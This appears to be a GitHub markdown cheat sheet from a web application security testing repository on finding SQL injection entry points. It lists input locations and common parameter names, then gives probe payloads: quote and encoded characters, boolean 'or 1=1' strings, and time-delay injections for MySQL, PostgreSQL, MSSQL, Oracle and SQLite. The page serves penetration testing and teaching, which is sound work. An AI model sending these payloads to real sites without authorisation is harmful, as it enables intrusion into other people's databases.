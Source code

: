 - ### [Injection Points](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#injection-points-1)
- ### [List of Parametes](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#list-of-parameters)
- ### [Giving Inputs](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#giving-inputs)
     * [Error Based](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#error-based)
     * [True False Based] (https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#true-false-based)
     * [Timing Attacks](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/Entrypoint_Detection.md#timing-attacks)
  
---

### Injection Points  
We should check for areas where ever we can give inputs like ==>
- Login Form
- Url Search Parameters
- Url id values
- Cookie Values
- XML encoded values like <storeId>**</storeId>
- Form Input Sections
- File Upload Sections
### List of parameters
    id
    select
    report
    role
    update
    query
    user
    name
    sort
    where
    search
    params
    process
    row
    view
    table
    from
    sel
    results
    sleep
    fetch
    order
    keyword
    column
    field
    delete
    string
    number
    filter

## Giving Inputs
### Error Based
We try to trigger any SQL error by applying these characters and strings
- Simple characters `'`, `"`, `;`, `)`
- Simple characters encoded: `%27`, `%22`, `%23`, `%3B`, `%29` and `%2A`
- Multiple encoding: `%%2727`, `%25%27`
- Unicode characters: `U+02BA`, `U+02B9`
### True False Based
Here we are trying to enter true and false logics. In some casses the website behaves differently to the true and false condition.

    and 1
    and true
    ' -- true
    page.asp?id=1 or 1=1 -- true
    page.asp?id=1' or 1=1 -- true
    page.asp?id=1" or 1=1 -- true
    page.asp?id=1 and 1=2 -- false
### Timing Attacks
Inputting different SQL commands to hit a time delay that can suggest the website may be vulnerable

    MySQL (string concat and logical ops)
    1' + sleep(10)
    1' and sleep(10)
    1' && sleep(10)
    1' | sleep(10)
    
    PostgreSQL (only support string concat)
    1' || pg_sleep(10)
    
    MSQL
    1' WAITFOR DELAY '0:0:10'
    
    Oracle
    1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
    1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
    
    SQLite
    1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
    1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))






    
